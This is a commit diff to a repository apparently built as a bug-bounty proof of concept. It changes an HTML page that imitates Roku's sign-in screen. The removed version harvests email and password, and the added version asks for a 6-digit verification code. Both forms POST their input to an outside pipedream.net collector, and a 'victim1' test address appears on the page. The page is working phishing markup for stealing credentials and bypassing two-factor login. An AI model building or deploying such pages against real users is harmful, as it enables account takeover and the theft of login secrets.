

Before and after one commit to 0xtestPoC/rokuLoginPoC, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 61-756 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Roku Sign In</title>
+  <title>Verify it's you</title>
   <style>
     body {
       font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
@@ -12,49 +12,42 @@
       background-color: #fff;
       color: #202124;
     }
-
     .header {
       background-color: #f9f9f9;
       padding: 20px 40px;
       box-shadow: 0 1px 4px rgba(0,0,0,0.1);
     }
-
     .logo {
       color: #662d91;
       font-size: 28px;
       font-weight: bold;
     }
-
     .container {
-      max-width: 500px;
+      max-width: 600px;
       margin: 60px auto;
       padding: 0 20px;
     }
-
     h1 {
-      font-size: 26px;
+      font-size: 28px;
+      margin-bottom: 10px;
+    }
+    p {
+      font-size: 16px;
       margin-bottom: 20px;
     }
-
-    label {
-      font-size: 13px;
-      font-weight: 500;
-      margin-bottom: 6px;
-      display: block;
+    .email {
+      font-weight: bold;
+      margin-bottom: 20px;
     }
-
-    input[type="text"],
-    input[type="password"] {
+    input[type="text"] {
       width: 100%;
       padding: 12px;
-      font-size: 15px;
+      font-size: 16px;
       border: 1px solid #ccc;
-      background-color: #f0f5ff;
       border-radius: 6px;
       margin-bottom: 20px;
     }
-
-    button {
+    .btn {
       background-color: #5c1fc4;
       color: #fff;
       padding: 12px 24px;
@@ -63,55 +56,15 @@
       border-radius: 8px;
       cursor: pointer;
       font-weight: bold;
-      margin-top: 10px;
-      width: 100%;
     }
-
-    .note,
-    .options {
+    .note {
       font-size: 14px;
-      margin-top: 25px;
-      line-height: 1.6;
+      color: #444;
+      margin-top: 30px;
     }
-
-    .note a,
-    .options a {
+    .link {
       color: #0066cc;
       text-decoration: none;
-    }
-
-    .form-section {
-      margin-bottom: 60px;
-    }
-
-    .footer {
-      font-size: 12px;
-      color: #555;
-      text-align: center;
-      padding: 30px 20px;
-      border-top: 1px solid #eee;
-    }
-
-    .footer a {
-      margin: 0 10px;
-      color: #333;
-      text-decoration: none;
-    }
-
-    .remember {
-      display: flex;
-      align-items: center;
-      margin-bottom: 20px;
-    }
-
-    .remember input {
-      margin-right: 8px;
-    }
-
-    hr {
-      margin: 25px 0;
-      border: none;
-      border-top: 1px solid #ddd;
     }
   </style>
 </head>
@@ -121,42 +74,20 @@
   </div>
 
   <div class="container">
-    <h4 style="color:gray">You have been logged out</h4>
-    <!-- Sign-In Form -->
-    <div class="form-section" id="login">
-      <h1>Sign in</h1>
+    <h1>Verify it’s you to finish signing in</h1>
+    <p>To help protect your account, enter the 6-digit code we sent to:</p>
+    <div class="email">voltex+victim1@bugcrowdninja.com</div>
+    <form action="https://eo152lqegwprrxn.m.pipedream.net" method="POST">
+      <input name="Code" type="text" placeholder="Enter code" />
+    </form>
 
-      <form action="https://eo152lqegwprrxn.m.pipedream.net/" method="POST">
-        <label>Email</label>
-        <input type="text" name="email" value="" required>
 
-        <label>Password</label>
-        <input type="password" name="password" value="" required>
+    <button class="btn">Continue</button>
 
-        <a href="#" class="options">Forgot password?</a>
-        <div class="remember">
-          <input type="checkbox" id="remember">
-          <label for="remember">Remember me</label>
-        </div>
-
-        <button type="submit">Sign in</button>
-      </form>
-
-      <div class="options">
-        New user? <a href="#">Create account</a>
-      </div>
+    <div class="note">
+      The code is valid for only 1 hour. If you don’t see the email in your inbox, check your spam or junk folder.<br><br>
+      Code expired? <a href="#" class="link">Request a new one.</a>
     </div>
-
-  </div>
-
-  <div class="footer">
-    <a href="#">Terms and Conditions</a> |
-    <a href="#">Privacy Policy</a> |
-    <a href="#">Developer Site</a> |
-    <a href="#">About ads & cookies</a> |
-    <a href="#">My Privacy Choices</a>
-    <br><br>
-    &copy; 2008–2025 Roku
   </div>
 </body>
 </html>
```
